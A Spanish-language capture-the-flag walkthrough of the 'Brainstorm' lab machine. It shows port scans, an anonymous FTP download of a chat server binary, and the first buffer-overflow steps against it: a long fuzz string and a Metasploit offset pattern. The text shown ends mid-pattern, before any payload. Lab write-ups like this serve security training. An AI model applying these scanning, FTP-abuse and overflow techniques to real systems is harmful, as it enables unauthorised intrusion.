








# Brainstorm

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.201.14.163 -oG allPorts

PORT     STATE SERVICE
21/tcp   open  ftp
3389/tcp open  ms-wbt-server
9999/tcp open  abyss
```

```bash
nmap -sC -sV -p21,3389,9999 -Pn 10.201.14.163 -oN target             

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can t get directory listing: TIMEOUT
3389/tcp open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: BRAINSTORM
|   NetBIOS_Domain_Name: BRAINSTORM
|   NetBIOS_Computer_Name: BRAINSTORM
|   DNS_Domain_Name: brainstorm
|   DNS_Computer_Name: brainstorm
|   Product_Version: 6.1.7601
|_  System_Time: 2025-09-28T06:39:44+00:00
| ssl-cert: Subject: commonName=brainstorm
| Not valid before: 2025-09-27T06:34:20
|_Not valid after:  2026-03-29T06:34:20
|_ssl-date: 2025-09-28T06:40:15+00:00; 0s from scanner time.
9999/tcp open  abyss?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     Welcome to Brainstorm chat (beta)
|     Please enter your username (max 20 characters): Write a message:
|   NULL: 
|     Welcome to Brainstorm chat (beta)
|_    Please enter your username (max 20 characters):
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.95%I=7%D=9/28%Time=68D8D790%P=x86_64-pc-linux-gnu%r(NU
SF:LL,52,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter
SF:\x20your\x20username\x20\(max\x2020\x20characters\):\x20")%r(GetRequest
SF:,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x
SF:20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\x20mes
SF:sage:\x20")%r(HTTPOptions,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(
SF:beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20character
SF:s\):\x20Write\x20a\x20message:\x20")%r(FourOhFourRequest,63,"Welcome\x2
SF:0to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20usern
SF:ame\x20\(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(J
SF:avaRMI,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20e
SF:nter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\
SF:x20message:\x20")%r(GenericLines,63,"Welcome\x20to\x20Brainstorm\x20cha
SF:t\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20ch
SF:aracters\):\x20Write\x20a\x20message:\x20")%r(RTSPRequest,63,"Welcome\x
SF:20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20user
SF:name\x20\(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(
SF:RPCCheck,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x2
SF:0enter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20
SF:a\x20message:\x20")%r(DNSVersionBindReqTCP,63,"Welcome\x20to\x20Brainst
SF:orm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20\(max\x
SF:2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(DNSStatusReques
SF:tTCP,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPlease\x20ent
SF:er\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write\x20a\x2
SF:0message:\x20")%r(Help,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(bet
SF:a\)\nPlease\x20enter\x20your\x20username\x20\(max\x2020\x20characters\)
SF::\x20Write\x20a\x20message:\x20")%r(SSLSessionReq,63,"Welcome\x20to\x20
SF:Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20
SF:\(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(Terminal
SF:ServerCookie,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPleas
SF:e\x20enter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write
SF:\x20a\x20message:\x20");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FTP

FTP Port 21 nos conectamos y descargamos los archivos

```bash
ftp 10.201.14.163
Connected to 10.201.14.163.
220 Microsoft FTP Service
Name (10.201.14.163:rdrgox): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful.
125 Data connection already open; Transfer starting.
08-29-19  08:36PM       <DIR>          chatserver
226 Transfer complete.
ftp> cd chatserver
250 CWD command successful.
ftp> ls
200 EPRT command successful.
150 Opening ASCII mode data connection.
08-29-19  10:26PM                43747 chatserver.exe
08-29-19  10:27PM                30761 essfunc.dll
226 Transfer complete.
ftp> get chatserver.exe
local: chatserver.exe remote: chatserver.exe
200 EPRT command successful.
150 Opening ASCII mode data connection.
 88% |****************************************************************************************************************************************                   | 38640       37.72 KiB/s    00:00 ETAftp: Reading from network: Interrupted system call
  0% |                                                                                                                                                           |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available. 
WARNING! 45 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
ftp> get essfunc.dll
local: essfunc.dll remote: essfunc.dll
200 EPRT command successful.
150 Opening ASCII mode data connection.
100% |***********************************************************************************************************************************************************| 30761       30.02 KiB/s    00:00 ETAftp: Reading from network: Interrupted system call
  0% |                                                                                                                                                           |    -1        0.00 KiB/s    --:-- ETA
226 Transfer complete.
WARNING! 32 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
ftp> bye
221 Goodbye.
```

[Recursos BrainStorm](https://github.com/GeardoRanger/BrainStorm-THM-ChatServer.exe-Exploit/tree/main/Resource%20Files)

Abrimos nuestro windows preparado para BoF y trasferimos nuestro archivos

```bash
python3 -m http.server 8000             
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

192.168.159.134 - - [28/Sep/2025 04:33:52] "GET /chatserver.exe HTTP/1.1" 200 -
192.168.159.134 - - [28/Sep/2025 04:33:55] "GET /essfunc.dll HTTP/1.1" 200 -
```



En nuestra maquina kali enviamos un mensaje con nc, el detalle es que como máximo de 20 caracteres de nombre de usuario.

```bash
nc 192.168.159.134 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): test
Write a message: hola wn


Sun Sep 28 04:46:05 2025
test said: hola wn**
```



## BoF

Abrimos el Immunity Debugger en nuestro Windows para BOF y cargamos el archivo 



### FUZZ

Vamos a crear un archivo en python para probar nuestra etapa de FUZZ y ver si al ingresar o el username este con congela

```bash
python -c "print('A' * 5000)" 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Hemos comprobado que al enviar un mensaje este el programa se congela



Vamos a generar 5000 caracteres aleatorias para ver donde cambia el EIP y después buscar el cambio

```bash
msf-pattern_create -l 5000

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg